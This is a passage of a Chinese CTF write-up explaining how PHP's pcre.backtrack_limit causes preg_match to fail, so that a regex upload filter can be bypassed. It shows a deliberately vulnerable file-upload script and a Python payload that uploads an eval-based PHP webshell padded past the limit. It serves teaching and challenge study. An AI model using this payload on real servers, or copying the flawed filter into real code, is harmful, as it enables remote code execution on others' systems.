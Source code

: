 可以发现这其中存在一个回溯过程，首先<\?. 直接把所有的匹配完成，使得. 后面至少有一个[(`;?>].*没有完成匹配，

因此就向前匹配，知道匹配成功（到phpinfo()后面的;）。


### 使用php的pcre.backtrack_limit限制绕过

当然在上面那个匹配中不可能一直回溯，那这样就会消耗服务器资源，就形成了正则表达式的拒绝服务攻击，因此php就有了限制回溯的机制


IN:

<?php

var_dump(ini_get('pcre.backtrack_limit'));

var_dump(preg_match('/<\?. [(`;?>]. /is', '<?php phpinfo();//'.str_repeat('c', 999995)));

  
OUT:

string(7) "1000000" bool(false)

在这个点上p师傅出过一道题目，源码如下：

```php
<?php
function is_php($data){
return preg_match('/<\?.*[(`;?>].*/is', $data);
}
if(empty($_FILES)) {
die(show_source(__FILE__));
}
$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
echo "bad request";
} else {
@mkdir($user_dir, 0755);
$path = $user_dir . '/' . random_int(0, 10) . '.php';
move_uploaded_file($_FILES['file']['tmp_name'], $path);
header("Location: $path", true, 303);
 }
```


#### payload：

```
import requests
from io import BytesIO

files = {
'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
 }

 res = requests.post('http://IP/index.php', files=files, allow_redirects=False)
 print(res.headers)
```


[0]: http://51.158.75.42:8084/
[1]: http://www.php.net/manual)%EF%BC%8C%E8%BF%99%E4%B8%AA%E7%9C%9F%E7%9A%84%E6%98%AF%E5%A5%BD%E4%B8%9C%E8%A5%BF%E3%80%82%E4%BB%A5%E4%B8%8B%E6%98%AF%E5%AF%B9%E8%BF%99%E4%B8%80%E5%9D%97%E7%9A%84%E6%8E%A2%E7%A9%B6%EF%BC%9A
[2]: https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html
